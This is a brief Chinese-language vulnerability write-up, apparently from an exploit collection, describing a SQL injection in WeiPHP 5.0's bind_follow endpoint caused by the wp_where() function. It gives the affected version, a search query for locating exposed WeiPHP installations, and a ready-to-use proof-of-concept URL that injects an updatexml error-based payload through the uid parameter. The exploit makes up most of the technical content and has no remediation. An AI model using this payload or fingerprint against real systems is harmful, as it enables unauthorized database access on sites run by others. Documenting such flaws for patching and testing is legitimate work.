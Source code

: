 # WeiPHP5.0 bind_follow SQL注入漏洞

## 漏洞描述

Weiphp5.0 所有使用了 wp_where() 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

## 漏洞影响

```
Weiphp5.0
```

## 网络测绘

```
app="WeiPHP"
```

## 漏洞复现

登陆页面

![img](images/202202162318466.png)

验证POC

```php
/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```